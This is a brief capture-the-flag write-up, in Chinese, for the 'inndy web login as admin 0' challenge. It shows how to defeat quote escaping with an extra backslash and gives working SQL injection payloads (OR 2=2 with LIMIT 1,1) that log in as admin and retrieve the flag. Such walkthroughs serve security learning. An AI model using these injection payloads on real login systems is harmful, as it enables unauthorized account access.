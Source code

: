 # inndy web login as admin 0
1. 它過濾掉單引號，把 ' 改成 \'，所以為了讓 \ 失效，所以在輸入 payload 時要多一個 \
```
輸入 admin\' OR 2=2# :
成功登入，但是使用者是 guest
```
2. 這是因為使用者有三個，一個 admin, 一個 guest, 一個 inndy，它用 php 的函式 fetchObject()，抓到的會是第一筆資料，然後剛好 guest 在第一筆，所以會抓到 guest 的資料。因此只要用 LIMIT 1,1，就可以抓到從第二筆開始數的一筆資料
```
輸入 admin\' OR 2=2 LIMIT 1, 1# :
成功登入並且拿到 flag
```